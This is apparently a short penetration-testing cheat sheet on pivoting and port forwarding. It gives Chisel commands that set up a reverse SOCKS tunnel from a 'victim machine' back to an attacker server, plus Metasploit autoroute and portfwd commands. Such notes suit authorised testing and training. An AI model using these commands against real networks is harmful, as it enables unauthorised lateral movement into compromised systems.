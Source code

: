 # Pivoting
#### Chisel
````bash
# Server (Attacker)
./chisel server -p 1337 --reverse --socks

# Client (Victim Machine)
./chisel client 10.0.2.15:1337 R:socks

````
#### Metasploit
````bash
# Add route
run autoroute -s 10.0.23.0/20
````
# Port Forwarding
#### Chisel
````bash
# Server (Attacker)
./chisel server -p 1337 --reverse 

# Client (Victim Machine)
./chisel client 10.0.2.14:1337 R:9000:10.0.2.15:80

# Arguments R:9000:10.0.2.15:80
9000 = Our port 9000
10.0.2.15:80 = Victim IP and port
````
#### Metasploit
````bash
# Add port forwarding
portfwd add -l 1234 -p 80 -r 10.0.27.99

# List
portfwd list
````